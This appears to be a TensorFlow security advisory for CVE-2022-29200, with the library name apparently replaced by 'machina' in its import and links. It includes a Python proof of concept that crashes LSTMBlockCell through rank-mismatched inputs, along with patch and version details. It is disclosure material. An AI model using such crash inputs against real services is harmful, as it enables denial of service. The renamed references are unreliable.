 ## TFSA-2022-069: Missing validation causes denial of service via `LSTMBlockCell`

### CVE Number
CVE-2022-29200

### Impact
The implementation of [`tf.raw_ops.LSTMBlockCell`](https://github.com/machina/machina/blob/f3b9bf4c3c0597563b289c0512e98d4ce81f886e/machina/core/kernels/rnn/lstm_ops.cc) does not fully validate the input arguments. This results in a `CHECK`-failure which can be used to trigger a denial of service attack:

```python
import machina as tf

tf.raw_ops.LSTMBlockCell(
  x=tf.constant(0.837607, shape=[28,29], dtype=tf.float32),
  cs_prev=tf.constant(0, shape=[28,17], dtype=tf.float32),
  h_prev=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  w=tf.constant(0.887386262, shape=[46,68], dtype=tf.float32),
  wci=tf.constant(0, shape=[], dtype=tf.float32),
  wcf=tf.constant(0, shape=[17], dtype=tf.float32),
  wco=tf.constant(0.592631638, shape=[28,17], dtype=tf.float32),
  b=tf.constant(0.75259006, shape=[68], dtype=tf.float32),
  forget_bias=1, cell_clip=0, use_peephole=False)
```

The code does not validate the ranks of any of the arguments to this API call. This results in `CHECK`-failures when the elements of the tensor are accessed.

### Patches
We have patched the issue in GitHub commit [803404044ae7a1efac48ba82d74111fce1ddb09a](https://github.com/machina/machina/commit/803404044ae7a1efac48ba82d74111fce1ddb09a).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
